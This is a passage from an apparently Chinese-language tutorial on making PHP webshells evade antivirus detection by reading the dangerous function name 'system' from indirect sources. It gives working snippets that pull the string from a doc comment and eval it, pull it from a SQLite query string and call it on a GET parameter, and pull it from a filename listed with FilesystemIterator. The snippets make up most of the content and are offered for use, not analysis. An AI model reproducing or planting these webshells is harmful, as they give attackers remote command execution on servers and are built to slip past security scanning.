 ## 11# 读取字符串绕过

重点还是放在高危函数上，通过读取各种东西来获得对应字符串

### 11.1 读取注释

这里用到读取注释的函数

```php
ReflectionClass::getDocComment
```

例子如下：

```php
    /**   
    * system($_GET[aabyss]);
    */  
class User { }  
$user = new ReflectionClass('User');
$comment = $user->getDocComment();
$f = substr($comment , 14 , 22);
eval($f);
```

### 11.2 读取数据库

可以通过 `file_put_contents` 文件写入函数写入一个Sqlite的数据库

```php
$datatest = "[文件的base64编码]";
file_put_contents('./要写入的文件名', base64_decode($datatest));
```

然后通过PHP读取数据库内容提取高危函数，从而达到WebShell免杀效果

```php
$path = "数据库文件名"

$db = new PDO("sqlite:" . $path);

$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();

$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['b']);
```

### 11.3 读取目录

`FilesystemIterator` 是一个迭代器，可以获取到目标目录下的所有文件信息

```php
public FilesystemIterator::next ( void ) : void
```

可以尝试使用 `file_put_contents` 写入一个名为 `system.aabyss` 的空文件，然后遍历目录拿到字符串 `system` ，成功ByPass
